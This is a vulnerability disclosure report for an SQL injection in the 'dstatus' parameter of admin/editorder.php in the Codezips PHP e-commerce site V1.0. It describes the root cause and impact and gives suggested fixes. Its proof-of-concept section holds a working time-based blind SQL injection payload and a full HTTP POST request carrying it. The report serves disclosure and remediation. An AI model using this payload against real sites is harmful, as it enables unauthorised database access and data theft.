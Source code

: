 # Codezips E-commerce Site Using PHP With Source Code V1.0 admin/editorder.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-commerce Site Using PHP With Source Code

## Vendor Homepage

- https://codezips.com/php/e-commerce-site-using-php-with-source-code/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- `zhangjiale`

## Vendor

- `codezips`

## Vulnerable File

- `/admin/editorder.php`

## VERSION(S)

- V1.0

## Software Link

- https://codeload.github.com/codezips/ecommerce-site-using-php/zip/master

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/editorder.php' file of  the 'E-commerce Site Using PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter  'dstatus' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  <img src="./image/image-20241219110549997.png" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-commerce Site Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "/admin/editorder.php" file. This vulnerability stems from insufficient  user input validation of the 'dstatus' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'dstatus' parameter

## Payload:

```
order=11&dstatus=111' AND IF((SELECT DATABASE() = 'ebuybd'), SLEEP(3), '0') WHERE id=1  --+dwada
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
POST /admin/editorder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: PHPSESSID=nofl9ic3c43bacnqakrd6eofv2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

order=11&dstatus=111' AND IF((SELECT DATABASE() = 'ebuybd'), SLEEP(3), '0') WHERE id=1  --+dwada
```

<img src="./image/image-20241219110757283.png" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.